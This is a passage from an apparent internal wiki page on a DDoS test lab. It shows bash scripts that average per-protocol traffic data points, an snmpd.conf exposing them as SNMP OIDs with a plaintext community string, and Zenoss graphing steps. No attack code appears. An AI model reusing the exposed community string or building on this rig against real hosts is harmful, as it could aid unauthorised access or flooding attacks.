    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== SMTP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-smtp-AVG  
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd smtp/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== DNS Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-dns-AVG     
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd dns/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

=== ICMP Average Data Point ===

{{{
root@DDOS-Client:~/shockWave/Calibration/DATA-POINTS/BIN# cat make-icmp-AVG  
#! /bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
cd /root/shockWave/Calibration/DATA-POINTS/

cd icmp/

AVG=$(echo "scale=2; 0.00" | bc -l)
for datapoint in *.DP
do
    val=$(cat $datapoint)
    AVG=$(echo "scale=2; $AVG + $val" | bc -l)
done
AVG=$(echo "scale=2; $AVG / 10" | bc )
echo $AVG
}}}

== SNMPD Link Data Points ==

- In order for all those collectors to be active in the SNMP query, we added them as execute upon query.

{{{
root@DDOS-Client:~/shockWave/Calibration# cat /etc/snmp/snmpd.conf
#  Listen for connections from the local system only
agentAddress  udp:127.0.0.1:161
#  Listen for connections on eth0 only
agentAddress  udp:192.168.0.131:161

## System location and contact information
syslocation NOOR
syscontact NOOR-SYSTEMS

rocommunity TeSt0FDd0S


### Calibration Extensions ###
##HTTP
extend .1.3.6.1.4.1.10001.1 http-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-1 
extend .1.3.6.1.4.1.10001.2 http-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-2 
extend .1.3.6.1.4.1.10001.3 http-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-3 
extend .1.3.6.1.4.1.10001.4 http-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-4 
extend .1.3.6.1.4.1.10001.5 http-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-5 
extend .1.3.6.1.4.1.10001.6 http-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-6 
extend .1.3.6.1.4.1.10001.7 http-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-7 
extend .1.3.6.1.4.1.10001.8 http-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-8 
extend .1.3.6.1.4.1.10001.9 http-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-9 
extend .1.3.6.1.4.1.10001.10 http-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-10 
extend .1.3.6.1.4.1.10001.11 http-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-http-AVG
##HTTPS
extend .1.3.6.1.4.1.10002.1 https-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-1 
extend .1.3.6.1.4.1.10002.2 https-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-2 
extend .1.3.6.1.4.1.10002.3 https-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-3 
extend .1.3.6.1.4.1.10002.4 https-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-4 
extend .1.3.6.1.4.1.10002.5 https-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-5 
extend .1.3.6.1.4.1.10002.6 https-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-6 
extend .1.3.6.1.4.1.10002.7 https-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-7 
extend .1.3.6.1.4.1.10002.8 https-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-8 
extend .1.3.6.1.4.1.10002.9 https-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-9 
extend .1.3.6.1.4.1.10002.10 https-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-10
extend .1.3.6.1.4.1.10002.11 https-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-https-AVG 
##FTP
extend .1.3.6.1.4.1.10003.1 ftp-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-1 
extend .1.3.6.1.4.1.10003.2 ftp-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-2 
extend .1.3.6.1.4.1.10003.3 ftp-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-3 
extend .1.3.6.1.4.1.10003.4 ftp-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-4 
extend .1.3.6.1.4.1.10003.5 ftp-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-5 
extend .1.3.6.1.4.1.10003.6 ftp-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-6 
extend .1.3.6.1.4.1.10003.7 ftp-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-7 
extend .1.3.6.1.4.1.10003.8 ftp-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-8 
extend .1.3.6.1.4.1.10003.9 ftp-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-9 
extend .1.3.6.1.4.1.10003.10 ftp-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-10
extend .1.3.6.1.4.1.10003.11 ftp-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-ftp-AVG
##SMTP
extend .1.3.6.1.4.1.10004.1 smtp-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-1 
extend .1.3.6.1.4.1.10004.2 smtp-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-2 
extend .1.3.6.1.4.1.10004.3 smtp-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-3 
extend .1.3.6.1.4.1.10004.4 smtp-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-4 
extend .1.3.6.1.4.1.10004.5 smtp-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-5 
extend .1.3.6.1.4.1.10004.6 smtp-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-6 
extend .1.3.6.1.4.1.10004.7 smtp-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-7 
extend .1.3.6.1.4.1.10004.8 smtp-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-8 
extend .1.3.6.1.4.1.10004.9 smtp-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-9 
extend .1.3.6.1.4.1.10004.10 smtp-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-10 
extend .1.3.6.1.4.1.10004.11 smtp-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-smtp-AVG
##DNS
extend .1.3.6.1.4.1.10005.1 dns-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-1 
extend .1.3.6.1.4.1.10005.2 dns-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-2 
extend .1.3.6.1.4.1.10005.3 dns-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-3 
extend .1.3.6.1.4.1.10005.4 dns-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-4 
extend .1.3.6.1.4.1.10005.5 dns-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-5 
extend .1.3.6.1.4.1.10005.6 dns-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-6 
extend .1.3.6.1.4.1.10005.7 dns-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-7 
extend .1.3.6.1.4.1.10005.8 dns-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-8 
extend .1.3.6.1.4.1.10005.9 dns-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-9 
extend .1.3.6.1.4.1.10005.10 dns-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-10 
extend .1.3.6.1.4.1.10005.11 dns-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-dns-AVG
##ICMP
extend .1.3.6.1.4.1.10006.1 icmp-calib1 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-1 
extend .1.3.6.1.4.1.10006.2 icmp-calib2 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-2 
extend .1.3.6.1.4.1.10006.3 icmp-calib3 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-3 
extend .1.3.6.1.4.1.10006.4 icmp-calib4 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-4 
extend .1.3.6.1.4.1.10006.5 icmp-calib5 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-5 
extend .1.3.6.1.4.1.10006.6 icmp-calib6 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-6 
extend .1.3.6.1.4.1.10006.7 icmp-calib7 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-7 
extend .1.3.6.1.4.1.10006.8 icmp-calib8 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-8 
extend .1.3.6.1.4.1.10006.9 icmp-calib9 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-9 
extend .1.3.6.1.4.1.10006.10 icmp-calib10 /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-10 
extend .1.3.6.1.4.1.10006.11 icmp-calibAVG /root/shockWave/Calibration/DATA-POINTS/BIN/make-icmp-AVG
}}}

== Zenoss Link ==

- In order for our Monitoring System to Graph the Calibration Points, the following steps have been completed

=== Add Devices ===

- Both The Victim & the Client has been added to the monitoring System

{{attachment:zenoss1.jpg}}

=== Creating Data Points ===

- Manually Enter all '''''66 OIDS''''' so that Zenoss can execute the collector scripts.

{{attachment:zenoss2.jpg}}

=== Creating Graphs ===

- Create 6 graphs, one for each tested protocol.

- Each graph should contain 11 Data Points  (10 for clients and 1 for Avg of Avg DP)

{{attachment:zenoss3.jpg}}

=== Creating Report ===

- Create The Calibration Report using the following Graphs

{{attachment:zenoss4.jpg}}


=== Report Example ===

- The Calibration Report should look something like this in the end.






















[[attachment:zenoss-report.pdf]]
